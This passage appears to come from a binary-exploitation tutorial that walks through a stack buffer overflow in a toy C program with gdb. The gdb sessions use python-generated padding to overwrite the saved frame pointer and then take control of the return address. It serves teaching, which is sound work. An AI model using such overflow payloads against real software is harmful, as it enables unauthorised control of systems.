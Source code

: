 ```sh
```

- After 44th byte, our program SEGFAULTs. And this means we overwrote something important.
- Let's inspect further by setting two breakpoints (at `return` in main and at the beginning of `vuln`):

```sh
(gdb) r 66 `python3 -c 'print("A"*44)'`
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".

Breakpoint 3, vuln (n=66, str=0xffffd29c 'A' <repeats 44 times>) at silly.c:15
15        int i = 0;
(gdb) x/x $ebp
0xffffcf88:     0xb8
(gdb) c
Continuing.

Breakpoint 2, main (argc=134529032, argv=0x407) at silly.c:31
31        return 0;
(gdb) x/x $ebp
0xffffcf00:     0x74
```

- At the start of the program `ebp` has memory address `0xffffcf88`.
- At the end of the program `ebp` has memory address `0xffffcf00` and points to `0x74`.
- The last byte got overwritten with `0x00` but why?
- __That's because string of `A`s which we gave into input is null terminated, thus the 45th byte is NULL.__

## Overwriting the return address

- Let's now exploit this vulnerability to overwrite the return address so that it points to whatever we want.
- We know that the return address is stored at `ebp+0x4`, and that means we have to add padding of 48 bytes before we reach the return address.
- Let's verify these facts:

```sh
(gdb) r 66 `python3 -c 'import sys; sys.stdout.buffer.write(b"\x41" * 48 + b"\x41\x42\x43\x44")'`
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".

Breakpoint 3, vuln (n=66, str=0xffffd294 'A' <repeats 49 times>, "BCD") at silly.c:15
15        int i = 0;
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
(gdb) x/x $ebp+0x4
0x41414145:     Cannot access memory at address 0x41414145
```
